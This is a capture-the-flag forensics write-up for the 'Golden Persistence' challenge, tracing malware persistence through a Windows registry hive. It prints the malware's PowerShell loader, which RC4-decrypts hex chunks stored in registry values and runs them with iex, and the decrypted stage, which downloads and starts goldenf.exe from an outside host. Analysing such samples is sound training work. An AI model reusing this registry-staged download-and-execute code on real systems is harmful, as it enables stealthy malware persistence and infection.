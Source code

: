 # Golden Persistence (Forensics)

## Initial Steps

Use `regripper` or `reglookup` to look at `ntuser.dat`

## Diving Deeper

Found a base64 string; once converted, we get the following code:

```powershell
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
    )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

## And Deeper Still

Need to find the specific registry values in order to find the values of `$encrypted1`, `$encrypted2`, `$encrypted3`, `$encrypted4`, and `$encrypted5`.  Time to go back to `regripper` or `reglookup`.

```powershell
$encrypted1 = F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39
$encrypted2 = CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1
$encrypted3 = C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D
$encrypted4 = D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1
$encrypted5 = 84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB
```

With the new values, the encoded string computes to:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";
$exists = Test-Path -Path $path -PathType Leaf;
if ( $exists ) {
    Start-Process $path
}
else {
    mkdir "C:\ProgramData\windows";
    Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;
    $flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";
    Start-Process $path
}
```

And there's your flag, `HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}`
